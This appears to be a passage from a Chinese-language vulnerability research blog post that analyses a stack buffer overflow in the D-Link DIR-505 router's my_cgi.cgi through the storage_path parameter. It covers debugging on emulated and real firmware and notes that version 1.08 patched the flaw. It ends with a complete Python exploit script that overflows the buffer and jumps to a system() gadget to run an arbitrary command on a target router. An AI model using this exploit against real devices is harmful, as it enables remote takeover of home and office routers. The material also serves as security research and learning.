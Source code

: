 ```sh
#重新构造参数，将\x00替换掉
INPUT=`python -c "print 'storage_path='+'A'*477450+'B'*23+'\x40\x5b\x1c'+'C'*(66-22-4)+'/bin/ls'"`
#在跳转到system的地方设置断点
b *0x40B30C
set $ra=0x405b1c
```

成功跳转到`system`函数，并正确传递命令，继续跟下去并没有成功执行命令，也没有发现问题所在的地方。

这里找到了真机，验证这个洞在真机中是否存在，由于上面版本的股价刷不进去，这里重新下载了固件DIR505A1_FW108CNB04.bin并刷新到真机上。由于这个固件中很多偏移与之前地固件有所不同，这里需要对偏移进行修改。使用之前的脚本进行运行调试发现不会覆盖返回地址发生崩溃，程序直接结束了。

```sh
pwndbg> c
Continuing.
[Inferior 1 (Remote target) exited normally]
```

在main函数开始地地方下断点，然后逐步调试发现程序在0x40A5AC处直接跳转到main函数地结束位置，研究这部分判断地含义，发现这里对环境变量REMOTE_ADDR地存在进行了判断（如下），而之前分析地固件版本中没有进行判断，所以脚本中要添加环境变量REMOTE_ADDR

```c
remote_addr = (int)getenv("REMOTE_ADDR");
if ( !remote_addr )
    return 0;
```

增加环境变量后继续调试发现程序仍然退出，仔细研究发现这个版本地固件中增加了对content_length地大小判断，也就是说这个洞被修复了!!!

```c
if ( (unsigned int)(content_length - 1) >= 0x74909 )
    return 0;
```

所以我们需要将有漏洞地固件刷到真机上，这里我们找到低版本地1.07CN地固件刷到真机上。（这里用qemu模拟测试可知1.07CN中地各种覆盖偏移与1.08中是一样的），但是gadget位置变了0x405C5C

```sh
.text:00405C5C la      $t9, system
.text:00405C60 li      $s1, loc_430000
.text:00405C64 jalr    $t9 ; system
.text:00405C68 addiu   $a0, $sp, 0x64+var_3C  # command
```

下面编写exp

```python
import sys
import urllib2
try:
        target = sys.argv[1]
        command = sys.argv[2]
except:
        print "Usage: %s <target><command>" % sys.argv[0]
        sys.exit(1)
url = "http://%s/my_cgi.cgi" % target
buf = "storage_path="
buf += "D" * 477472
buf += "\x00\x40\x5C\x5C"
buf += "E" * (66 - 22 - 4)
buf += command
buf += "\x00"
req = urllib2.Request(url, buf)
print urllib2.urlopen(req).read()
```

